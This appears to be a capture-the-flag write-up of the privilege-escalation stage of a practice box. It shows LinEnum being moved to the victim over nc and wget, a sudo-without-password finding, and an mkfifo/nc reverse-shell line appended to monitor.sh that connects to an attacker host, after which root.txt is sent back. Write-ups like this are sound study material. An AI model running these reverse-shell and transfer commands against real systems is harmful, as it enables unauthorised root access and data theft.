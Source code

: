 
> along with the first flag we copied another file from the victim
> this file was a compressed zip directory containing the folder structurer
> personal.zip
> - personal/
> - personal/stuff/
> and the file
> personal/stuff/monitor.sh

user nibbler has rwx permissions to the shell script monitor.sh

> use the [linuxenum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) script to enumerate some priv escalation before heading forward
> we will use the attacker to grab the script since the victim doesnt have access to outer networks and send it to the victim using nc reverse of that we used in exfil

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

```bash
nc -l -p 420 <linuxenum.sh
```

```bash
wget <attacker ip>:420 -O linuxenum.sh
```

> the  wget will continue after it tranfers the file's data so we kill the nc on the attacker side
> we use wget instead of nc listener on the victim side as there is a permission issue with nc -l -p 


- we run linuxenum.sh on victim after making it executable with chmod +x and we redirect output to a file lenum-out, and send to attacker 

# pwnage 

> notice in output from priv escalation enumeration that user nibbler can sudo without a password, using the file monitor.sh, so if there was a reverse shell in there and it was executed with sudo ./monitor.sh that reverse shell should be a root shell

- to avoid interupting the various commands executed in monitor.sh we will insert the reverse shell at the EOF 
- we also need to inflate it on the victim side as its in personal.zip
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> <port> >/tmp/f' | tee -a monitor.sh
```

> now we set attacker to listen and run it as sudo on victim

```bash
nc -lvnp 420
```


```bash
sudo ~/personal/stuff/monitor.sh
```

> finally with a root  reverse shell we move to the home dir of root, and send the root.txt file back to the attacker

